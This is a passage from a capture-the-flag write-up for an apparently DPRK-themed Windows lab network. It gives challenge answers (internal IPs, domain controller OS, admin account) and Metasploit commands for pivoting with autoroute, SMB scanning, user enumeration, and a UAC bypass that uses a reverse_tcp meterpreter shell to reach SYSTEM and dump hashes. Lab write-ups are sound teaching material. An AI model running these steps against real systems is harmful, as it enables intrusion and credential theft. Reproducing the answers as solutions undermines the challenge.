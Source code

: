 ===Recon 4===
What is the IP of the domain controller?

192.168.100.250

run post/windows/gather/enum_domains

===Recon 5===
What operating system is the domain controller running?

Windows 2012 R2 Standard

<pre>meterpreter > run autoroute -s 192.168.100.0/24
meterpreter > background
msf5 exploit(windows/iis/iis_webdav_upload_asp) > use auxiliary/scanner/smb/smb_version
msf5 auxiliary(scanner/smb/smb_version) > set RHOSTS 10.13.0.150
msf5 auxiliary(scanner/smb/smb_version) > run</pre>

===Developer 1===
What is the IP address of the developer's machine?

192.168.100.15

I used nslookup from meterpreter

===Recon 6===
What is the IP address of the administrator's machine?

192.168.100.25

===Recon 7===
What is the IP address of the Glorious Leader's machine?

192.168.100.20

===Recon 8===
Local admin is dprkadmin

use post/windows/gather/enum_logged_on_users

===Administrator 1===

we know the logged on user is a member of the local administrators group:

<pre>C:\Users\choe.hang-na\Desktop>net localgroup administrators
net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
DPRK\choe.hang-na
dprkadmin
The command completed successfully.</pre>

Use a UAC bypass to get system, then dump hashes:

<pre>use exploit/windows/local/bypassuac_eventvwr
set payload windows/meterpreter/reverse_tcp
set target 0
set lhost 10.13.0.150
exploit</pre>
